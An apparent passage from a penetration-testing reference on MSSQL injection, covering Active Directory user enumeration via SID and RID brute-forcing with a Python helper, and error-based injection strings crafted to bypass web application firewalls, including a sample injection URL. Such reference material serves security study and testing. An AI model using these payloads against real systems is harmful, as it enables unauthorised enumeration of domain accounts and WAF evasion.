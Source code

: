 # MSSQL Injection


## Active Directory enumeration

It may be possible to **enumerate domain users via SQL injection inside a MSSQL** server using the following MSSQL functions:

- **`SELECT DEFAULT_DOMAIN()`**: Get current domain name.
- **`master.dbo.fn_varbintohexstr(SUSER_SID('DOMAIN\Administrator'))`**: If you know the name of the domain (_DOMAIN_ in this example) this function will return the **SID of the user Administrator** in hex format. This will look like `0x01050000000[...]0000f401`, note how the **last 4 bytes** are the number **500** in **big endian** format, which is the **common ID of the user administrator**.\
  This function will allow you to **know the ID of the domain** (all the bytes except of the last 4).
- **`SUSER_SNAME(0x01050000000[...]0000e803)`** : This function will return the **username of the ID indicated** (if any), in this case **0000e803** in big endian == **1000** (usually this is the ID of the first regular user ID created). Then you can imagine that you can brute-force user IDs from 1000 to 2000 and probably get all the usernames of the users of the domain. For example using a function like the following one:

```python
def get_sid(n):
	domain = '0x0105000000000005150000001c00d1bcd181f1492bdfc236'
	user = struct.pack('<I', int(n))
	user = user.hex()
	return f"{domain}{user}" #if n=1000, get SID of the user with ID 1000
```
```
## **Alternative Error-Based vectors**

Error-based SQL injections typically resemble constructions such as `+AND+1=@@version--` and variants based on the «OR» operator. Queries containing such expressions are usually blocked by WAFs. As a bypass, concatenate a string using the %2b character with the result of specific function calls that trigger a data type conversion error on sought-after data.

Some examples of such functions:

- `SUSER_NAME()`
- `USER_NAME()`
- `PERMISSIONS()`
- `DB_NAME()`
- `FILE_NAME()`
- `TYPE_NAME()`
- `COL_NAME()`

Example use of function `USER_NAME()`:

```
https://vuln.app/getItem?id=1'%2buser_name(@@version)--
```
```
![[https://swarm.ptsecurity.com/wp-content/uploads/2020/11/6.png|]]
